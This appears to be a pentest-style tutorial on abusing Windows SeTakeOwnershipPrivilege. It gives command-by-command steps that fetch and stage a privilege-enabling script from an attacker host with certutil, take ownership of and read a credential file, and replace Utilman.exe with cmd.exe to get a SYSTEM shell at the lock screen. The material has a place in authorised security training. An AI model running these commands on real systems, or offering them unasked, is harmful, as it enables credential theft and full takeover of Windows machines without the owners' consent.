

### **Introduction**

`SeTakeOwnershipPrivilege` grants a user the ability to take ownership of any *securable object* such as Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes, This privilege assigns `WRITE_OWNER` rights, allowing the user to change the owner within the object’s security descriptor.  
While administrators have this privilege by default, it can also be granted to service accounts for specific tasks.

### **Step 1: Enabling SeTakeOwnershipPrivilege**

1.  Verify if the current user has `SeTakeOwnershipPrivilege`:  
    `whoami /priv`  
    
    
    
2.  Download the **EnableAllTokenPrivs.ps1** script:  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  
    
    
    
3.  Transfer the script to the target machine:  
    `certutil -urlcache -f http://[IP-ADDRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    

4.  Import the script to enable the privilege:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
5.  Verify that `SeTakeOwnershipPrivilege` is enabled:  
    `whoami /priv`  
    
    

### **Step 2: Choosing a target file**

1.  Identify a target file to take ownership of. In this example: `C:\Secrets\cred.txt`:  
    `Get-ChildItem -Path 'C:\Secrets\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}`  
    
    
    
2.  Check the ownership of the directory:  
    `cmd /c dir /q 'C:\Secrets'`  
    
    

### **Step 3: Taking ownership of the file**

1.  Change ownership of the file:  
    `takeown /f 'C:\Secrets\cred.txt'`  
    
    
    
2.  Confirm the ownership change:  
    `Get-ChildItem -Path 'C:\Secrets\cred.txt' | select name,directory,@{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}`  
    
    
    
3.  Grant your account full control with `icacls`:  
    `icacls 'C:\Secrets\cred.txt' /grant hackfast:F`  
    
    

    **Note:** Verify access by reading the file:  
    `cat 'C:\Secrets\cred.txt'`

### **Exploiting with Utilman**

1.  Since `Utilman.exe` runs with SYSTEM privileges, replacing it allows privilege escalation.  
    Check its current permissions:  
    `icacls "C:\Windows\System32\Utilman.exe"`  
    
    

2.  Take ownership of `utilman.exe`:  
    `takeown /f C:\Windows\System32\Utilman.exe`  
    
    

    **Note:** Ownership alone doesn’t grant access. However, the owner can assign new permissions.

3.  Grant full control over `utilman.exe`:  
    ```
    icacls C:\Windows\System32\Utilman.exe /grant hackfast:F
    icacls "C:\Windows\System32\Utilman.exe"
    ```  
    
    

4.  Replace `utilman.exe` with `cmd.exe` (backup the original first, if possible):  
    `copy cmd.exe utilman.exe`  
    
    

5.  Lock the screen from the Start menu:  
    
    

6.  Click the **Ease of Access** button.  
    Since `utilman.exe` was replaced with `cmd.exe`, a command prompt opens with SYSTEM privileges:  
    
    